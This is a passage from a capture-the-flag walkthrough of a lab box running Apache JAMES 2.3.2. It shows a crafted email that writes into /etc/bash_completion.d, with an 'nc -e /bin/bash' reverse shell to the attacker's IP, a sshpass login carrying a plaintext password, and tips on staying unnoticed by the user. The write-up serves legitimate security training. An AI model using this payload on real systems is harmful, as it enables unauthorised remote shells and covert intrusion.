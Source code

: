 ```

```

It all seemed superficial, such as the ID or the from address, until the last difference, which, didn’t look different at all. I opened them both in `vi` to see if there was something missing, and there was a subtle difference:

| Script | Manual |
| --- | --- |
| image-20200429231545372 | image-20200429233306700 |

In my manual interaction, there’s extra carriage returns (`\r`, printed as `^M` in `vi`) after the `'` and after the payload. I don’t quite know why that made such a difference, but removing the two `^M` in vi (putting the cursor over the character and pushing `x`) made it work. I could test it by running `bash 4D61696C313538383231373333333237352D37.Repository.FileStreamStore`.

### Better User Experience

It bugged me a little bit that when I connected SSH as mindy, the SSH shell just hung while I worked on my `nc` shell. I wanted to see if I could start a payload that didn’t ruin the user’s SSH connection. In a real situation, I wouldn’t want to break the user’s experience and draw attention to myself.

The best way to do this was with the `nc -e` payload. I found that if I added a trailing `&`, it would start the process in the background and allow the triggering process to continue. The email looks like:

```

Return-Path: <'0xdf@10.10.14.47>^M
Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>^M
MIME-Version: 1.0^M
Content-Type: text/plain; charset=us-ascii^M
Content-Transfer-Encoding: 7bit^M
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost^M
Received: from 10.10.14.47 ([10.10.14.47])^M
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252^M
          for <../../../../../../../../etc/bash_completion.d@localhost>;^M
          Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
FROM: 0xdf@10.10.14.47^M
^M
'^M
/bin/nc -e /bin/bash 10.10.14.47 443 &^M

```

mindy’s SSH session has some extra junk text, but the prompt comes in live immediately:

```

root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 29 22:44:26 2020 from 10.10.14.47
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
```